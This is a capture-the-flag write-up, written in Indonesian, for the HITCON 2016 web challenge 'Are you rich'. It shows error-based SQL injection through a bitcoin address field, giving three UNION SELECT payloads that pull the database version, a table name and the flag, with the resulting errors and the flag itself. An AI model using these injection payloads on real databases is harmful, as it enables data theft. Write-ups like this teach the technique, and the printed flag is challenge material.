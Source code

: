 ```yaml
---
layout: post
title: "Hitcon 2016 : Are you rich"
description: "Hitcon 2016 : Are you rich"
headline: 
modified: 2016-10-10
category: Hitcon 2016
tags: [Hitcon 2016]
imagefeature: /images/php.jpg
mathjax: 
chart: 
comments: true
featured: true
---
```


### Problem :

Are you rich? Buy the flag!
http://52.197.184.164/are_you_rich/

ps. You should NOT pay anything for this challenge

Some error messages which is non-related to challenge have been removed


### Solution : 

Kita dapat web di mana kita bisa lakukan generate bitcion address dan membeli flag. 
Untuk membeli flag kita harus mempunyai 5 BTC dalah address tersebut (Seharusnya),
Dan jika kita menggunakan Address BTC(>=26 karakter) yang bukan di generate dari web tersebut
maka akan muncul error `This address not issued by us` dan ketika kita menambah kan kutip 
pada address BTC nya maka akan muncul `Error when searching in the issue log`.

Dari situ kita asumsikan bahwa address BTC yang sudah di generate itu di simpan ke database
dan kemudian di cari lagi ketika kita akan membeli flag. 

Ternyata memang SQL injection 

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select @@version) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address '5.7.15-0ubuntu0.16.04.1'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select table_name from information_schema.tables where table_schema != 'information_schema' limit 1) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address 'flag1'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Input : `1uQfX9XbdGu2Qr26cB1PZP4Pp8xZaRMfz' UNION SELECT (select flag from flag1 limit 1) limit 1,2#`
Error : `Error!: Remote API server reject your invalid address 'hitcon{4r3_y0u_r1ch?ju57_buy_7h3_fl4g!!}'. If your address is valid, please PM @cebrusfs or other admin on IRC.`

Dan di dapatkan flag nya `hitcon{4r3_y0u_r1ch?ju57_buy_7h3_fl4g!!}` , sayangnya kita tidak temukan flag Are you rich 2 :(

